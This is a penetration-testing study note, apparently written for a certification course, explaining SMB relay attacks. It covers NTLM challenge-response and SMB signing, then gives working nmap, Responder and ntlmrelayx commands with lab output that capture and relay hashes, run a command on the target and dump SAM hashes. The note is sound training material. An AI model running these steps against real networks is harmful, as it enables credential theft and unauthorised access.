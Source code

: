 
# SMB Relay Attack
In an [SMB](/networking/protocols/SMB.md)-Relay attack, instead of attempting to crack the hashes gathered from the network with [Responder](/PNPT/PEH/active-directory/initial-vectors/responder.md), an attacker relays those hashes to other machines in the hopes that *one will allow them to gain access*.
## Basic Flow
SMB Relay takes advantage of regular authentication attempts by common automated systems on a network. These automated systems perform regular management tasks on devices on the network. To do so, they attempt to logon/ authenticate with any device which connects to the network using [NTLM](/networking/protocols/NTLM.md).
### Normal Function
The service tries to authenticate with the server. The server responds with a challenge, usually 'if you're really the user you say you are, then encrypt this challenge with the user's *password hash* and send it back.'

The service on the client encrypts the challenge w/ the user's password and sends the new value back to the server. The server decrypts the answer with the user's password and, if it decrypts to the original challenge it sent, it authenticates the service.
### Exploitation
An attacker can exploit this vulnerable exchange by capturing the traffic b/w the service and the server, modifying it, and essentially hijacking the authentication by the server of the service (the attacking machine gets authenticated instead).

By hijacking the authentication, the attacker gains access *to the target server which sent the challenge*.
![](PNPT/PNPT-pics/smbrelay.png)
> [Cowdex](https://cowdex.github.io/posts/smb-relay-attack/)
#### Requirements:
- SMB Signing disabled
- Admin credentials: the relayed user credentials *must be admin credentials* or you don't gain much from obtaining them. 
- Additionally, you can't relay the credentials to yourself (attacker). The credential *must be relayed to a different computer*.
## Exploitation
### Identify Hosts without SMB signing
First, we have to find hosts on the target network which have SMB signing disabled.
#### What is SMB signing?
SMB signing is a security mechanism added to the SMB protocol by Microsoft starting with Windows 2000. It protects the integrity of messages sent b/w a client and a server by signing each message with a signature generated via the session key.

This *prevents tampering of the message* by an attacker because any tampering will *change the hash*, thus signaling to the system that the message was compromised in-transit.
#### Using [nmap](../../../../CLI-tools/linux/remote/nmap.md)
Nmap has a script which will report back which hosts on the network have SMB signing disabled. To run it, just use:
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p139,445 10.10.10.175
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-27 14:40 GMT
Nmap scan report for egotistical-bank.local (10.10.10.175)
Host is up (0.040s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required  # here

Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
```
Regardless of the number of targets which come back as not requiring SMB signing, add each one to a file called `targets.txt`.
### Relay w/ [Responder](../../../../cybersecurity/TTPs/exploitation/tools/responder.md) & `smbrelayx.py`
Once we've found a good host, we're going to use a combination of Responder and `smbrelayx.py`to capture a hash and then relay if (using our own server) to the target.

First, we have to update our Responder configuration so it doesn't act as the server (since the impacket script will do that for us).
`/usr/share/responder/responder.conf`
```bash
[Responder Core]                                                           
; Servers to start                                                                
SQL = On                                                                        
SMB = Off    # this should be off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off   # this should be off                                                     ...
```
#### Responder
The command we give to responder will tell Responder to listen on our specified interface and passively capture hashes on the network:
```bash
respnder -I eth0 -dwPv
```
- `d`: [DHCP](/networking/protocols/DHCP.md) (allows Responder to answer DHCP broadcast requests)
- `w`: [WPAD](/computers/windows/active-directory/WPAD.md) proxy server
- `P`: ProxyAuth (forces NTLM authentication)
- `v`: verbose
#### `ntlmrelayx.py`
The `ntlmrelayx.py` script is from python [impacket](../../../../cybersecurity/TTPs/exploitation/tools/impacket.md) which will handle relaying the hashes captured by responder to the target devices.
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
#### Success
Upon successful relay to the target, impacket will print the local SAM hashes for accounts on the target device. Ideally, one of those will be from an Administrator account.

> [!Resources]
> - [Microsoft: Overview of SMB signing](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing)
> - [Mark Baggett: SMB Relay Demystified...](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
> - [Cowdex: SMB Relay Attack](https://cowdex.github.io/posts/smb-relay-attack/)
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)


